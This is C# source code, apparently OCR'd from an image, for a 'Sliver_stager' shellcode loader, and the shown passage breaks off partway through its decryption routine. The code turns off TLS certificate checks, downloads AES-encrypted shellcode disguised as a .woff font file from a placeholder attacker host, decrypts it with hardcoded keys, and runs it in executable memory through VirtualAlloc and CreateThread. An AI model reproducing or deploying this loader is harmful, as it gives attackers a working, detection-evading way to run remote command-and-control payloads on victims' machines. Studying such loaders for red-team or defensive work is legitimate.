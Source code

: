```cpp
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "http://<LHOST>:<LPORT>/<NAME>.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            List<byte> l = new List<byte> { };

            for (int i = 16; i <= shellcode.Length -1; i++) {
                l.Add(shellcode[i]);
            }

            byte[] actual = l.ToArray();

            byte[] decrypted;

            decrypted = Decrypt(actual, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
            Marshal.Copy(decrypted, 0, addr, decrypted.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;
```